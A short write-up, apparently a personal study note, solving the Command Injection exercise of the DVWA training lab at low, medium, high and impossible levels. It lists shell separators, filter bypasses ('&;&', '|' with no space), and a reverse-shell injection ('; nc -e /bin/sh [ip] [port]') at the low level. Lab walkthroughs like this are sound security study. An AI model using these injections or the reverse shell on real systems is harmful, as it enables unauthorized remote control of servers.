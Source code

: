 # DVWA - Command Injection Solution

## Low level
> Because it doesn't filter the input text, so we can use the injection to get more information form the server.

|command|descripes|
|-|-|
|;|Can do the command behind ';'|
|&&|After the first command successful do the second|
|\|\||After the first command failure do the second|

> Usw the ';'
> 
> ![](https://i.imgur.com/iYsY42z.png)

> Usw the '&&'
> 
> ![](https://i.imgur.com/ZZYTz6Z.png)

> We can use the `; nc -e /bin/sh [ip] [port]` to connect to the server.
> We need to listen the port on our server and use the command injection to cennect.
> 
> ![](https://i.imgur.com/Hi6c7fM.png)


## Medium level
> We can see the source code, it will filter the ';' and '&&'. So we can use '&;&' to bypass.
> 
> ![](https://i.imgur.com/zpjKHp6.png)

> Or we can use the '||', '|' to bypass.
> 
> ![](https://i.imgur.com/hdRWPMf.png)


## High level
> As we can see there is a 'space' after '|' so we can use the '|' to bypass. 
> 
> ![](https://i.imgur.com/WNdJmM2.png)


> Example
> 
> ![](https://i.imgur.com/hEhzki6.png)

## Impossibel level 
> In this case we can see the source code.
> It split the input by '.' and check the input.
> If the input isn't a number it will echo 'ERROR: You have entered an invalid IP.'
> So we don't have the way to bypass.
> 
> ![](https://i.imgur.com/u7ieCLz.png)
